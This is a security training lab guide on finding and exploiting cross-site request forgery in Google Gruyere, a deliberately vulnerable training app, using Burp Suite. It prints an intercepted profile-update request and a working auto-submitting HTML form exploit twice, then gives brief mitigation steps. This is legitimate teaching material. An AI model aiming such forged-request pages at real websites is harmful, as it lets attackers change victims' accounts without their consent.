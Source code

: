 # Project 3: Testing for Cross-Site Request Forgery (CSRF) Vulnerabilities
## Introduction
Cross-Site Request Forgery (CSRF) is a web security vulnerability that allows an attacker to trick a user into performing actions that they do not intend to perform. This can include changing account details, making unauthorized transactions, or any action that the user is authorized to perform. In this project, you will learn how to identify and exploit CSRF vulnerabilities using Google Gruyere, a web application specifically designed for security training.

## Pre-requisites
- Basic understanding of web application concepts and the HTTP protocol.
- Familiarity with HTML and HTTP requests.
- A working installation of Google Gruyere and Burp Suite Community Edition.

## Lab Set-up

### Setting up Google Gruyere
1. **Download and Install Google Gruyere**:
   - Google Gruyere is a hosted application available for testing at [Google Gruyere](https://google-gruyere.appspot.com/).
   - Visit the link and click on "Start hacking" to create a new instance of the Gruyere application.

2. **Get your unique instance**:
   - Note the unique URL provided for your Gruyere instance, e.g., `https://google-gruyere.appspot.com/123456789012/`.

### Setting up Burp Suite
1. **Download and Install Burp Suite**:
   - Download Burp Suite Community Edition from [PortSwigger](https://portswigger.net/burp/communitydownload) and install it.

2. **Configure Burp Suite with your Browser**:
   - Open Burp Suite and go to the "Proxy" tab.
   - Click on "Intercept is on" button to toggle interception off.
   - Go to the "Options" sub-tab and ensure the proxy listener is running on 127.0.0.1:8080.
   - Configure your web browser to use Burp Suite as a proxy (set the proxy server to 127.0.0.1 and port 8080).

## Exercises

### Exercise 1: Identifying CSRF Vulnerabilities

1. **Navigate to Gruyere Application**:
   - Open your browser and navigate to your Gruyere instance URL (e.g., `https://google-gruyere.appspot.com/123456789012/`).

2. **Log in to Gruyere**:
   - Log in with any username and password to create a new session.

3. **Intercept a Request with Burp Suite**:
   - Perform an action such as changing your profile information.
   - Burp Suite will intercept the request. Forward the request to see the result.

4. **Analyze the Request**:
   - Look for the absence of any anti-CSRF tokens in the request.
   - If there are no tokens, the request is likely vulnerable to CSRF attacks.

### Commands and Expected Output

1. **Initial Request Interception**:
   - Request intercepted by Burp Suite:
     ```
     POST /123456789012/profile HTTP/1.1
     Host: google-gruyere.appspot.com
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 32

     name=NewName&about=NewDescription
     ```
   - Expected output: Profile information is updated without any CSRF protection.

### Exercise 2: Exploiting CSRF Vulnerabilities

1. **Crafting a CSRF Attack**:
   - Create an HTML page to exploit the CSRF vulnerability. Save the following content as `csrf_exploit.html`:
     ```html
     <html>
     <body>
       <form action="https://google-gruyere.appspot.com/123456789012/profile" method="POST">
         <input type="hidden" name="name" value="AttackerName">
         <input type="hidden" name="about" value="CompromisedAccount">
         <input type="submit" value="Submit request">
       </form>
       <script>
         document.forms[0].submit();
       </script>
     </body>
     </html>
     ```

2. **Execute the CSRF Attack**:
   - Open the `csrf_exploit.html` file in a browser where you are logged into the Gruyere instance.
   - The form will be automatically submitted, changing the profile information.

3. **Verify the Exploit**:
   - Check the profile page on Gruyere to see if the profile information has been changed to `AttackerName` and `CompromisedAccount`.

### Commands and Expected Output

1. **Crafting the CSRF Attack**:
   - HTML content:
     ```html
     <html>
     <body>
       <form action="https://google-gruyere.appspot.com/123456789012/profile" method="POST">
         <input type="hidden" name="name" value="AttackerName">
         <input type="hidden" name="about" value="CompromisedAccount">
         <input type="submit" value="Submit request">
       </form>
       <script>
         document.forms[0].submit();
       </script>
     </body>
     </html>
     ```

2. **Expected Output**:
   - The profile information on the Gruyere instance is updated to:
     ```
     Name: AttackerName
     About: CompromisedAccount
     ```

### Exercise 3: Mitigating CSRF Vulnerabilities

1. **Implementing Anti-CSRF Tokens**:
   - Modify the application code (if you have access) to include CSRF tokens in forms and verify them on the server side.

2. **Testing the Mitigation**:
   - After applying the mitigation, repeat the CSRF attempt and ensure it is no longer successful.

## Conclusion
By completing these exercises, you will gain hands-on experience in identifying and exploiting CSRF vulnerabilities using Burp Suite and Google Gruyere. Additionally, you will understand the importance of implementing anti-CSRF tokens to protect web applications from CSRF attacks.
